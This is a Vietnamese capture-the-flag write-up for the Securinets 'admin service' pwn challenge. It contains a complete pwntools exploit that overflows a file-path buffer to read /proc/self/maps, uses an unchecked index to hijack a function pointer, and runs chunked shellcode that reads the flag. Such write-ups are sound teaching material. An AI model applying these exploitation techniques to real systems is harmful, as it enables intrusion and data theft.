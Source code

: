 # admin service
## Checksec và chuẩn bị
```
[*] '/mnt/d/ctf/securinets/admin_service/services'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./'
```
```python
def chat(context):
        sla(b"Choice:\n", b"1")
        sla(b":", context)
def conf(idx, context):
        sla(b"Choice:\n", b"2")
        sla(b":", str(idx).encode())
        sa(b":", (context))
def mes(idx, context):
        sla(b"Choice:\n", b"3")
```

## Phân tích
- Ở option 1 chương trình cho ta đọc 1 file trong folder `./chat/`
- Ta thấy có bug ở đây

```c
char src[256]; // [rsp+10h] [rbp-310h] BYREF
char s[256]; // [rsp+110h] [rbp-210h] BYREF
char dest[8]; // [rsp+210h] [rbp-110h] BYREF
...
strcpy(dest, "./chat/");
...
__isoc99_scanf("%s[254]s", src);
```

- Ta có thể ow dest (chính là path của file). Thì trong máy có một file cho lưu địa chỉ bộ nhớ của máy là file `/proc/self/maps`
- Mục đích là để leak các địa chỉ exe base, libc base ...
![Alt text](image.png)

- Tiếp đến ở hàm `updateConfig()` có bug là không giới hạn idx ta nhập, do vậy ta có thể ow `backupCall()` trỏ về shellcode của ta và open read write flag

## Khai thác
### Leak libc, exe  bằng /proc/self/maps

```python
payload = b"\0" * 0x200 + b"/proc/self/maps\0"
chat(payload)
p.recvline()
exe.address = int("0x"+ p.recv(12).decode(),16)
p.recvlines(7)
rwx = int("0x"+ p.recv(12).decode(),16)
info("rwx: " + hex(rwx))
info("exe base: " + hex(exe.address))
```

### ow s1 và backupCall()
- Mục đích là để call được `backupCall`
```python
conf(9, p64(rwx))                   # ow backupCall bằng địa chỉ chứa shell
conf(2, p64(exe.address + 0x20c2))  # ow s1 bằng địa chỉ chứa chuỗi "backup: 1"
idx = (rwx - exe.address + 0x4060 - 0x70c0 - 0x1000)//8 # tính idx
conf(idx+0x100//8, "flag")          # ghi chuỗi "flag" để tí open trỏ đến
pathflag = rwx + 0x100              # tính địa chỉ của flag
```

### Shellcode
- Do mỗi lần nhập ta chỉ được 10 byte, nên mỗi lần ta sẽ ghi 8 byte

```python
shellcode = asm(f'''
                mov rax, 0x2
                mov rdi, {pathflag}
                mov rsi, 0
                mov rdx, 0
                syscall
                
                mov rdi, rax
                mov rax, 0x0
                mov rsi, {rwx+0xa00}
                mov rdx, 0x50
                syscall
                
                mov rax, 0x1
                mov rdi, 1
                mov rsi, {rwx+0xa00}
                mov rdx, 0x100
                syscall
                ''')

chunks = [shellcode[i:i+8] for i in range(0, len(shellcode), 8)]    # cắt shellcode thành các 8 byte bỏ vào chunk
cnt = 0
for chunk in chunks:
        conf(idx + cnt, chunk)          # nhập vào
        cnt+=1 
mes()
```

## Kết quả
![Alt text](image-1.png)
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('services', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b* backupMessages
                # b*readChat
                # b*updateConfig
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('pwn.ctf.securinets.tn', 4444)
else:
        p = process(exe.path)

GDB()
def chat(context):
        sla(b"Choice:\n", b"1")
        sla(b":", context)
        

def conf(idx, context):
        sla(b"Choice:\n", b"2")
        sla(b":", str(idx).encode())
        sa(b":", (context))
def mes():
        sla(b"Choice:\n", b"3")
payload = b"\0" * 0x200 + b"/proc/self/maps\0"
chat(payload)
p.recvline()
exe.address = int("0x"+ p.recv(12).decode(),16)
p.recvlines(7)
rwx = int("0x"+ p.recv(12).decode(),16)
info("rwx: " + hex(rwx))
info("exe base: " + hex(exe.address))

conf(9, p64(rwx))  
conf(2, p64(exe.address + 0x20c2))
idx = (rwx - exe.address + 0x4060 - 0x70c0 - 0x1000)//8
conf(idx+0x100//8, "flag")
pathflag = rwx + 0x100
# idx = 0
shellcode = asm(f'''
                mov rax, 0x2
                mov rdi, {pathflag}
                mov rsi, 0
                mov rdx, 0
                syscall
                
                mov rdi, rax
                mov rax, 0x0
                mov rsi, {rwx+0xa00}
                mov rdx, 0x50
                syscall
                
                mov rax, 0x1
                mov rdi, 1
                mov rsi, {rwx+0xa00}
                mov rdx, 0x100
                syscall
                ''')

chunks = [shellcode[i:i+8] for i in range(0, len(shellcode), 8)]
cnt = 0
for chunk in chunks:
        conf(idx + cnt, chunk)
        cnt+=1
mes()
p.interactive()

```